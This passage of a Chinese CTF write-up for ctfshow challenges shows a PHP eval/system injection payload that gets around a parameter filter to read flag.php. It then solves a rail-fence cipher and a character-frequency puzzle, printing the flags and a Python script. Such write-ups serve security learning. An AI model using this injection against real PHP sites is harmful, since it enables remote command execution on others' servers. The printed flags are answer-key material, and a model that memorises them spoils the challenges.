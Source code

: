 ~~不留活路是吧（怒）~~

你不让我在?c里面干这些事情那我就再定义一个变量，在另外一个变量里面执行操作，我看你还管不管得到我

```php
url/?c=eval($_GET[a]);&a=system('tac flag.php');
```

这下我都能不装了摊牌了，老子就是要你的flag你给我不给我拿吧

#### web32

## CTFSHOW_CAIGOU_WriteUp

### 谜之栅栏

解压发现两张图片，图片名为找不同，使用010的compare进行分析可以得到以下栅栏密码

```
cfhwfaab2cb4af5a5820}
tso{06071f997b5bdd1a
```

使用工具进行解密（栅栏数为2）

`ctfshow{f0a6a0b721cfb949a7fb55ab5d8d210a}`

### 你会数数吗

解压压缩包发现文件未指定类型，使用010打开发现为普通字符串，根据题目提示“你会数数吗”尝试统计字符串字数（即统计每个字符在文件中出现的频率）可发现flag

![img](https://cdn.nlark.com/yuque/0/2023/png/39298680/1699269917146-b842d84b-58d4-46c2-8509-336fcf30b6be.png)

使用脚本进行提取

```python
import re
from collections import Counter


# 定义一个函数，用于统计字母的个数
def analyze_letter_count(text):
    # 从文本中提取出所有字母
    letters = re.findall(r'\S', text)
    # 统计所有字母的个数
    counter = Counter(letters)
    return counter


# 将文本存入变量
# 调用函数分析字母个数
def re_letter(s):
    regex = r'\'(.*?)\''
    new_string = re.findall(regex, s)
    return new_string


text = input("输入文本:")
letter_count = analyze_letter_count(text)
strings = str(letter_count)
# print(letter_count)
print(''.join(re_letter(strings)))

```

